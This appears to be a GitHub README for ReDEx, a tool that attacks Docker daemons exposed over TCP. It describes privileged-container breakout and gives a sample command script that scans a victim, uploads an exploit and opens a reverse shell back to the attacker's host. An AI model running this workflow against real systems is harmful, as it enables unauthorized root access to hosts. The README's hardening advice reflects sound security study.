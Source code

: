 # ReDEx - Remote Docker Execution Tool

> **WARNING**: EDUCATION PURPOSE ONLY

> **INFO**: Work In Progress

<video width="200" height="100" src="https://github.com/lmriccardo/redex/assets/32601287/3cf6e63a-5118-4697-b780-f845b709b9ae"></video>

**ReDEx** is tool that can remotely execute Docker commands via the Docker API on a remote host, which Docker Daemon has been exposed on (unsafe) TCP connections. Using actual HTTP (post, get, delete) requests it is possible to create, start, stop, inspect and list containers and images, and so on. However, all of these operations can also be used with malicious intent, in order to exploit the fact that the Daemon is exposed, creating privileged containers and performing so-called *Docker Breakout* techniques and *privilege escalation* on the host machine. 

Honestly, I am sceptical that some of these techniques works nowdays, at least I hope so. This tool is the result of my curiosity and some researches that I have done time ago, on my own. However, this tool is kindly fun, you should give it a try I think. 

*Thank you, and I wish you the best of Hack* !!!

## How much is Docker secure?

When it comes to security, Docker by itself is a safe place to run potentially vulnerable applications, given the fact that all containers are isolated from each others and from the host system. However, Docker is a powerfull tool, and it provides to the user the capability to do everything he want either being safe or not. For example, we can *share* any portion of the host filesystem with the container using volumes or bind mounts. This means that it is possible to mount the entire host filesystem on the container just running `docker run -v /:/path`. Now, inside the container it is possible to alter the mounted filesystem without any restriction, but in particular it bypasses the namespace isolation, leaking a lot of information that an attacker can use to carry out an attack. This is only one example of bad practice. Moreover, also starting container with root capabilities is not suggested. Assuming that a malicious entity has gained access to the container, he can easily install every tool he wants and perform malicious action against the host machine. 

Basically, Docker by itself is secure, however exposing the Docker Daemon both to unsafe connections and to untrusted users, leads to a lot of vulnerabilities being the principal vector for carrying out a lot Docker breakout attacks. If it is required that the Docker Daemon can communicate over a TCP protocols, at least one must be sure to setup a secured version either using the HTTPS encrypted docker, or by putting a secure web proxy in front of it.

## Kind of Scripting

Although ReDEx has been developed to be a CLI application, just like metasploit, there might be some repetead actions that can become boring, or some other that the user might forget to do, in order to correctly execute a *scan* or runs an exploit. For this reason, I decided to implement a simple "scripting" mechanism. It is not real scripting, it is just a way to put all the commands in a single file with extension `.rdx`, that can be loaded and ran into ReDEx. All the commands are executed sequentially, in the same order they appear into the file. In the following an example of a ReDEx command script.

```
% All the comments must go before the command call
set rhost=293.238.232.1
set lhost=232.231.43.12
set lport=4444
set name=breakout

% Scan the RHOST for open ports
scan

% Create a new container
create
lstconts

% Start the container and the attack
start
upload
execute
```

Then, inside the ReDEx CLI it is possible to run it using:

```
>>> : load scripts/script.rdx
>>> : run
>>> : stop
```

What this simple script does is very simple. First it sets some session variables, using the `set` command. In particular it sets the RHOST (remote host, or victim machine that is running Docker), the LHOST (local host IP address), LPORT (local port) and NAME (the name of the container that will be created). Then, it performs a scan to look for open ports in the RHOST, using the `scan` command. The next command, `create`, will create a fully-privileged container in the remote host named with the content of the variable `NAME` that we have previously configured. `lstconts` will just show all the running containers. Then, the `start` command will start the container and `upload` will upload the currently selected exploit into the remote container. Finally, the `execute` command will run, in this case, the *reverse shell handler* on the local host and the connection from the container. Once we have the CLI inside the container, it is possible to run the uploaded exploit and escape from the container, reaching the host system with root privileges.

## Do You Liked It?

If you like this tool, please leave a star or fork the repo!! I will appreciate it.